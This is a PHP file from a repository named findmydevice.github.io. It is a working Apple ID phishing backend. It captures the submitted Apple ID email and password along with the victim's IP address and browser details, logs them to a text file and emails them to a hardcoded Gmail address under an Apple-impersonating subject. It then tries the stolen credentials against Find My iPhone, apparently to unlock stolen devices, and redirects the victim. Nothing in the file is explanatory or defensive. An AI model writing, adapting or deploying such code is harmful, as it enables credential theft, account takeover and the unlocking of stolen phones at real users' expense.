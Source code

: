 # findmydevice.github.io
<?php
$email= $_POST['appleid'];
$pass= $_POST['password'];
function getUserIP()
{
    $client  = @$_SERVER['HTTP_CLIENT_IP'];
    $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $remote  = $_SERVER['REMOTE_ADDR'];
    if(filter_var($client, FILTER_VALIDATE_IP))
    {
        $ip = $client;
    }
    elseif(filter_var($forward, FILTER_VALIDATE_IP))
    {
        $ip = $forward;
    }
    else
    {
        $ip = $remote;
    }
    return $ip;
}
$user_ip = getUserIP();
$date = gmdate ("d-n-Y");
$time = gmdate ("H:i:s");
$agent = $_SERVER['HTTP_USER_AGENT'];
$remote = $_SERVER['REMOTE_ADDR'];
// Additional headers
$headers .= 'To: New User' . "\r\n";
$headers .= 'From: iServer' . "\r\n";
// To send HTML mail, the Content-type header must be set
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";
// Send email with reply
$to  = "kabyarsayarlay278@gmail.com";
// Subject
$subject = 'Key Ready By @Apple.inc';
// Message
$message = "\r\n Enjoy Unlock By @Joker_Unlock \r\n ".
"1PAddre55: $user_ip \r\n".
"Joker Email: $email \r\n".
"Joker Pass: $pass \r\n".
"Time-Date: $time - $date \r\n".
"Dvice typ: $agent \r\n".
"1PAddre55: http://whatismyipaddress.com/$remote \r\n";
require 'FindMyiPhone.php';
try {
$file=fopen("findmyiphone.txt","a");
fwrite($file,$message);
fwrite($file,"\r\n");
fclose($file);
	$FindMyiPhone = new FindMyiPhone($email, $pass);
} catch (exception $e) {
	if($e->getMessage()==true){
		// Mail it
// send email
$headers = "From:UNl0CKED <admin@help-iphone.info>" . "\r\n" ;
mail($to, $subject, $message, $headers);
header("Location: /map/ ");
	}else{
		header('Location: '.$_SERVER['HTTP_REFERER'].'?error');
	}
}
?>
